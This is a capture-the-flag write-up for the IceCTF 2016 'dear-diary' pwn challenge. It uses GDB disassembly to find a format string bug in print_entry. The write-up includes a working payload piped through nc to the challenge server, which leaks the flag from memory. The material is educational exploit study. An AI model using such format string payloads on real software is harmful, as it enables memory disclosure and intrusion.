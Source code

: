 # IceCTF-2016 : dear-diary-60

**Category:** Pwn
**Points:** 60
**Description:**

We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. nc diary.vuln.icec.tf 6501download file

## Writeup

Looking around the binary with GDB we can find that:
- the function `flag()` is called at the start of `main()` and it reads content from `./flag.txt` file.
- `print_entry` suffers of a string format vulnerability that allow us to read arbitrary memory addresses.

```sh
[dom28:ago:16 20:22:46] phra@kali ~/ctf/write-ups-2016 $ gdb ./dear_diary
(gdb) set disassembly-flavor intel
(gdb) disas print_entry 
Dump of assembler code for function print_entry:
   0x08048721 <+0>:     push   ebp
   0x08048722 <+1>:     mov    ebp,esp
   0x08048724 <+3>:     sub    esp,0x28
   0x08048727 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804872a <+9>:     mov    DWORD PTR [ebp-0x1c],eax
   0x0804872d <+12>:    mov    eax,gs:0x14
   0x08048733 <+18>:    mov    DWORD PTR [ebp-0xc],eax
   0x08048736 <+21>:    xor    eax,eax
   0x08048738 <+23>:    mov    eax,DWORD PTR [ebp-0x1c]
   0x0804873b <+26>:    mov    DWORD PTR [esp],eax
   0x0804873e <+29>:    call   0x8048490 <printf@plt>
   0x08048743 <+34>:    mov    eax,ds:0x804a080
   0x08048748 <+39>:    mov    DWORD PTR [esp],eax
   0x0804874b <+42>:    call   0x80484a0 <fflush@plt>
   0x08048750 <+47>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048753 <+50>:    xor    eax,DWORD PTR gs:0x14
   0x0804875a <+57>:    je     0x8048761 <print_entry+64>
   0x0804875c <+59>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048761 <+64>:    leave  
   0x08048762 <+65>:    ret    
End of assembler dump.
(gdb) 
```
`*print_entry+29` calls `printf()` with only one argument, a `char*` pointer to a string that we control.

Now we need the address of the flag, so let\'s disassemble `flag()` function.

```sh
(gdb) disas flag 
Dump of assembler code for function flag:
   0x0804863d <+0>:     push   ebp
   0x0804863e <+1>:     mov    ebp,esp
   0x08048640 <+3>:     sub    esp,0x28
   0x08048643 <+6>:     mov    eax,gs:0x14
   0x08048649 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0804864c <+15>:    xor    eax,eax
   0x0804864e <+17>:    mov    DWORD PTR [esp+0x4],0x0
   0x08048656 <+25>:    mov    DWORD PTR [esp],0x8048940
   0x0804865d <+32>:    call   0x8048500 <open@plt>
   0x08048662 <+37>:    mov    DWORD PTR [ebp-0x10],eax
   0x08048665 <+40>:    mov    DWORD PTR [esp+0x8],0x100
   0x0804866d <+48>:    mov    DWORD PTR [esp+0x4],0x804a0a0
   0x08048675 <+56>:    mov    eax,DWORD PTR [ebp-0x10]
   0x08048678 <+59>:    mov    DWORD PTR [esp],eax
   0x0804867b <+62>:    call   0x8048480 <read@plt>
   0x08048680 <+67>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048683 <+70>:    xor    eax,DWORD PTR gs:0x14
   0x0804868a <+77>:    je     0x8048691 <flag+84>
   0x0804868c <+79>:    call   0x80484c0 <__stack_chk_fail@plt>
   0x08048691 <+84>:    leave  
   0x08048692 <+85>:    ret    
End of assembler dump.
```

So the address of the buffer where the flag is loaded is at `0x804a0a0`.
Now we need to find in the stack where to put the address value.

```sh
> [dom28:ago:16 20:54:58] phra@kali ~/ctf/icectf/diary $ echo -ne "1\nAABB%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x|%x\n2\n3\n" | ./dear_diary
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AABBf75fa836|f7771000|ffc751b8|ffc765b8|0|a|84e1a800|0|0|ffc765c8|804888c|ffc751b8|4|f7771c20|0|0|1|42424141

1. add entry
2. print latest entry
3. quit
```
We can insert an arbitrary value on the stack and then trigger the format string vulnerability. Let's do it.

### PAYLOAD EXAMPLE
```
                   1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n
                       ^^^^^^^^^^^^^^^                                ^^
                       |||||||||||||||                                ||
                       |_______________________________________________|
                    address of flag                     format string exploitation
```

### EXPLOITING:
```sh
> [lun22:ago:16 00:48:01] phra@kali ~/ctf/icectf/diary $ echo -ne "1\n\xa0\xa0\x04\x08%f%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s\n2\n3\n" | nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
>-2353853267122949880488228771336605507975940228259531131213483876911033610747119179881566931135505952160644480871830309847003193621900077982680289929588490075567303710965080432136832255512352674224129626420279574654921909982545998909142624828095873782519863311234760704.000000ffd440a8ffd454a80a6df56b0000ffd454b8804888cffd440a84f7724c20001IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```
We have found the flag `IceCTF{this_thing_is_just_sitting_here}`.

## Other write-ups and resources

* https://github.com/Alpackers/CTF-Writeups/tree/master/2016/IceCTF/Stage_2/DearDiary
* https://github.com/EspacioTeam/write-ups/tree/master/2016/icectf/Dear%20diary
* https://github.com/1amtom/writeups/tree/master/2016-08-16-IceCTF/pwn-60-dear-diary
* https://github.com/73696e65/ctf-notes/blob/master/2016-IceCTF/Dear_diary-Pwn-60.txt
* https://github.com/WCSC/writeups/tree/master/icectf-2016/dear_diary
* [Japanese](https://ctftime.org/writeup/3813)
* https://github.com/318BR/IceCTF/tree/master/2016/Stage2/Dear_Diary
* https://youtu.be/oFscG4xsDXY
* http://dylanfw.com/blog/2016/08/27/format-string-exploitation-icectf-2016/
* https://github.com/burlingpwn/writeups/tree/master/IceCTF-2016/dear_diary
